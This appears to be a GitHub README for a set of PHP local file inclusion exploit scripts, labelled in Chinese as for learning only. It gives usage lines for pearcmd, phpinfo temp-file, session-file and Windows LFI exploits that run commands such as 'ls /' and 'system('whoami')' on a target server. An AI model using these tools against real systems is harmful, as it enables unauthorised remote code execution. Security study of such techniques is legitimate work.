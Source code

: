 # LFI EXP TOTAL

- 根据[首页 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/)编写
- 默认参数为file ，写的一般，仅供学习

## pearcmd_exp.py
```shell
use as：
	python3 pearcmd_exp.py ip port path command
example: 
    python -u ".\pearcmd_exp.py" 127.0.0.1 80 lfi.php file.php "ls /"
```

## phpinfo_tmp_lfi_offical.py

```shell
use as:
	python2 phpinfo_tmp_lfi_offical.py ip port pool
example:
	python2 phpinfo_tmp_lfi_offical.py 127.0.0.1 80 150
```

## session_lfi.exp.py

```shell
use as:
	python3 session_lfi.exp.py url command
example:
	example python -u ".\session_lfi.exp.py" "http://test.com/lfi.php" "system('ls');"
```

## window_lfi_exp.py

```shell
use as:
	python3 window_lfi_exp.py url php_eval
example:
	python window_lfi_exp.py  http://127.0.0.1/ "system('whoami')"             
```



